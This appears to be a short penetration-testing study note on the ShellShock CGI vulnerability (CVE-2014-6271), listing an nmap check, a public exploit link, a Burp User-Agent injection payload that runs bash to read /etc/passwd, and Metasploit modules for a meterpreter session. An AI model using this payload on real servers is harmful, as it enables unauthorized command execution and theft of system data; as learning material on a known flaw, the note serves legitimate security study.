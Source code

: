 # ShellShock Vuln (CVE-2014-6271):

- cgi vulnerability
- view page-source, get uri of cgi file
- nmap script to check if server is vuln to shellshock:
	- http-shellshock --script-args “http-shellshock.uri=/gettime.cgi”
- https://github.com/opsxcq/exploit-CVE-2014-6271 : steps to exploit vuln
![http-exploit](./images/http-01.png)
 ￼
- send a burp request to cgi file and modify user-agent as above:
	- () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
	
	![http-exploit-burp](./images/http-02.png)
	  ￼

Metasploit:
 - scan with scanner/http/apache_mod_cgi_bash_env
 - gain meterpreter session with multi/http/apache_mod_cgi_bash_env_exec
